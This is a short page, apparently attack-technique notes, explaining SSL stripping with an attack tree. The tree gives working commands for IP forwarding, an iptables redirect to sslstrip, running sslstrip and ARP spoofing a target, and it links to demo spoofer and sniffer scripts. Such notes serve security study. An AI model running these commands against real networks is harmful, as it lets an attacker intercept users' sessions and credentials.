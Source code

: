 # SSL Stripping

SSL stripping downgrades a HTTPS connection to HTTP by intercepting the TLS authentication sent from the application to the user. The adversary sends an unencrypted version of the application’s site to the user while maintaining the secured session with the application. The user’s session is visible to the adversary.

## Attack tree

```text
1 Strip SSL (AND)
    1.1 Install SSLStrip (AND)
    1.2 Configure attack machine for IP forwarding (echo 1 > /proc/sys/net/ipv4/ip_forward or sysctl -w net.ipv4.ip_forward=1) (AND)
    1.3 Route all HTTP traffic to SSLStrip (iptables –t nat –A PREROUTING -i eth0 –p tcp –dport 80 –j REDIRECT –to-port 54321) (AND)
    1.4 Run SSLStrip (sslstrip –l 54321)
2 Spoof ARP (AND)
    2.1 Install arpspoof (AND)
    2.2 Configure ARP spoofing (arpspoof –i eth0 –t <targetIP> <gatewayIP>)
3 Sniff traffic 
```

## Demo scripts
* [simple ARP spoofer](https://github.com/tymyrddin/ymrir/tree/master/arp_spoofer)
* [simple packet sniffer](https://github.com/tymyrddin/ymrir/tree/master/packet_sniffer)
